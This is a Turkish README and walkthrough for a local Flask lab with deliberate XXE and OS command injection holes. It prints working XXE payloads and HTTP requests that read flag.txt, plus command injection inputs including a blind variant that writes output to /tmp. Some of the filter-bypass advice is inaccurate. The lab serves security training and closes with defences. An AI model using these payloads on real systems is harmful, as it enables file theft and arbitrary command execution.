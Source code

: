 # xxe-oscommandinjection-lab
xxe and os command injection lab wich runs in local host

Dosyayı indirdikten sonra siteyi localhosta ayağa kaldırın.
sudo python3 app.py

![image](https://github.com/user-attachments/assets/ffb56d8b-f478-4e4e-98e6-41133167f877)

Lab artık çözmeye hazır.

![image](https://github.com/user-attachments/assets/193b4cd2-421e-463d-97ec-78f79a321393)

# Siber Güvenlik Laboratuvarında Flag.txt Dosyasını Ele Geçirmek: Detaylı Çözüm Rehberi

Bu yazıda, Flask framework'ü kullanılarak oluşturulmuş bir siber güvenlik laboratuvarını detaylı şekilde inceleyeceğiz. Amacımız, uygulamadaki güvenlik açıklarını tespit ederek **flag.txt** dosyasına erişim sağlamak. Her bir zafiyeti detaylı şekilde açıklayıp adım adım çözüm yollarını göstereceğiz.

---

## Aşama 1: Genel Sistem Analizi

Kodun genel yapısına baktığımızda, uygulama şu işlevselliklere sahip:

1. **Kullanıcı Girişi**:
   - XML tabanlı giriş doğrulama mekanizması mevcut.
   - Kullanıcı adı ve parola sabitlenmiş:  
     ```
     USERNAME = 'gtucyber'
     PASSWORD = 'turkcell@34000'
     ```

2. **Ping İşlevi**:
   - Kullanıcının, belirtilen bir IP adresine `ping` komutları çalıştırmasına izin veriliyor.
   - Bazı endpointlerde temel güvenlik kontrolleri bulunuyor.

3. **Hassas Dosyaya (flag.txt) Erişim**:
   - Amaç, sunucudaki `flag.txt` dosyasını ele geçirmek.

---

## Aşama 2: XXE (XML External Entity) Saldırısı

### Zafiyetin Keşfi

`/login` endpointindeki kodu inceleyelim:

```python
parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
DOMTree = etree.fromstring(request.data, parser)

username = DOMTree.find("username").text
password = DOMTree.find("password").text
```

Burada **`load_dtd=True`** ve **`resolve_entities=True`** parametreleri, uygulamanın dış kaynaklı XML varlıklarını çözmesine izin veriyor. Bu durum **XXE zafiyeti**ne yol açar.

---

### XXE Nedir?

**XML External Entity (XXE)**, bir XML dosyasının dış kaynaklardan gelen varlıkları çözümlemesine izin verdiği durumlarda oluşan bir güvenlik açığıdır. Bu açık, sunucudaki hassas dosyalara erişim sağlanmasına veya uzaktan dosya yükleme işlemlerine olanak tanır.

---

### Payload Oluşturma ve Saldırı

Hedefimiz, **flag.txt** dosyasını okumak. Aşağıdaki gibi bir XML payload'ı oluşturabiliriz:

```xml
<!DOCTYPE foo [ 
  <!ELEMENT username (#PCDATA)>
  <!ELEMENT password (#PCDATA)>
  <!ENTITY xxe SYSTEM "file:///path/to/flag.txt">
]>
<login>
  <username>&xxe;</username>
  <password>dummy</password>
</login>
```

Bu payload şunları yapar:

1. Bir dış varlık tanımlar (**`<!ENTITY>`**).
2. Sunucunun dosya sistemindeki hassas dosyayı okur (**`file:///path/to/flag.txt`**).
3. Sonuçta, kullanıcı adı alanına bu dosyanın içeriğini yerleştirir.

---

### Payload'ı Gönderme

Bu payload'ı, bir araç kullanarak (ör. **Burp Suite**, **Postman**) şu şekilde gönderin:

**HTTP İsteği:**

```http
POST /login HTTP/1.1
Host: target-lab
Content-Type: application/xml

<!DOCTYPE foo [
  <!ELEMENT username (#PCDATA)>
  <!ELEMENT password (#PCDATA)>
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<login>
  <username>&xxe;</username>
  <password>dummy</password>
</login>
```

Elde edilen yanıt, `flag.txt` dosyasının içeriğini gösterecektir:

```xml
<result>
  <username>FLAG{this_is_the_flag}</username>
  <password>dummy</password>
</result>
```

---

## Aşama 3: Komut Enjeksiyonu (Command Injection)

### Zafiyetin Keşfi

Kodda `/ping`, `/filter`, ve `/blind` endpointleri, kullanıcının girdiği IP adreslerini bir sistem komutunda kullanıyor:

```python
command = 'ping -c 4 {}'.format(ip_address)
result = os.popen(command).read()
```

Bu yöntem, kullanıcının `ip_address` parametresi üzerinden sisteme keyfi komutlar ekleyebileceği anlamına gelir. Örneğin:

```
127.0.0.1; cat /flag.txt
```

Bu giriş, aşağıdaki gibi bir sistem komutuna dönüşür:

```bash
ping -c 4 127.0.0.1; cat /flag.txt
```

---

### `/filter` Endpointindeki Kısıtlamaları Aşma

`/filter` endpointinde boşluk kontrolü yapılmakta:

```python
if ' ' in ip_address:
    return render_template('error.html')
```

Bu kısıtlamayı aşmak için şu yöntemleri kullanabilirsiniz:

1. **URL Encoding**:
   ```
   127.0.0.1%0Acat%20/flag.txt
   ```

2. **Alternatif Komut Ayırıcılar**:
   - Unix sistemlerinde `;`, `&&`, veya `|` gibi ayırıcılar kullanılabilir.

**Örnek Giriş**:

```
127.0.0.1;cat /flag.txt
```

**Sonuç**:
Ping çıktısının ardından `flag.txt` dosyasının içeriği görüntülenir.

---

### Blind Command Injection

`/blind` endpointinde komutların çıktısı doğrudan kullanıcıya gösterilmiyor. Ancak komutun sonuçlarını dosyaya yazdırarak zafiyeti kullanabiliriz:

```bash
127.0.0.1; echo "FLAG:$(cat /flag.txt)" > /tmp/output.txt
```

Daha sonra `/tmp/output.txt` dosyasını başka bir yolla okuyabilirsiniz.

---

## Güvenlik Önlemleri

Bu tür zafiyetlerden korunmak için şu yöntemleri uygulayın:

### XXE Koruması:
- **DTD** çözümlemesini devre dışı bırakın:
  ```python
  parser = etree.XMLParser(load_dtd=False)
  ```

- **XML Yerine JSON**: XML yerine JSON formatını kullanmak XXE riskini tamamen ortadan kaldırır.

---

### Komut Enjeksiyonu Koruması:
- Kullanıcı girdilerini çalıştırmadan önce doğrulayın ve temizleyin.
- Komut çalıştırmak için `subprocess.run` kullanarak güvenli bir whitelist uygulayın:
  ```python
  subprocess.run(['ping', '-c', '4', ip_address], check=True)
  ```

---

## Sonuç

Bu laboratuvar, siber güvenlik dünyasında karşılaşılabilecek iki temel zafiyeti (XXE ve Command Injection) anlamak için mükemmel bir örnek sunar. Güvenli kodlama uygulamaları ve giriş doğrulama yöntemleri, bu tür zafiyetlerin önlenmesinde kritik öneme sahiptir.
